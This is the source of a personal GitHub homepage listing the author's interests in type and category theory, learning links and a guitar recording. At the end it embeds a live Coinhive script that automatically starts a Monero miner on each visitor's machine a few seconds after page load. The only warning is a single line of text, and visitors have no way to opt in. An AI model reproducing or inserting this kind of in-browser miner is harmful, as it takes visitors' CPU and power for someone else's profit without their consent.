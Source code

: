 ```yaml
---
layout:
---
```


<!--
i apologize this site watches back
-->

<head>
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
</head>

Welcome to the user site of [github/bohadi](https://github.com/bohadi).<br>
Thanks for the visit and please feel free to look around.

I am currently most interested in effectively engineering complex<br>
software via application of category theory and type theory.

<!--
In particular, I am studying language, compilation, and blockchain implementation.
-->
<!--
Other interests include AI/ML, genomics, and the design and enjoyment of games.
-->

<!--
(mailto:bohadi@users.noreply.github.com)
if you would like to contact me
-->

some learning resources i find helpful:<br>
[pfpl](http://www.cs.cmu.edu/~rwh/pfpl.html)<br>
[hott](https://homotopytypetheory.org/book/)<br>
[ctfp](https://bartoszmilewski.com/2014/10/28/category-theory-for-programmers-the-preface/)<br>
[oplss17](https://www.cs.uoregon.edu/research/summerschool/summer17/topics.php)<br>
[nlab/wiki](https://ncatlab.org/nlab/show/HomePage)<br>
[aosa/ghc](http://www.aosabook.org/en/ghc.html)<br>
[r/haskell](http://www.reddit.com/r/haskell)<br>


<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

I enjoy playing the guitar and here is a short recording I made.

<!--
[this site, projects repo](https://github.com/bohadi)
-->

and some nice links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[sep/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>

<!--
some old stories:<br>
[The Travels of Marco Polo](https://en.wikisource.org/wiki/The_Travels_of_Marco_Polo)<br>
[Somnium, by Kepler](https://somniumproject.wordpress.com/somnium)<br>
[Vera Historia, by Lucian of Samosata](http://lucianofsamosata.info/TheTrueHistory.html)<br>

[other fiction i (did) enjoy](/movies)<br>
-->

<br>
Finally, this page can mine Monero on your machine.<br>
<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connected... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error (adblock). Miner stopping.';
    }
  }, 3000);

</script>
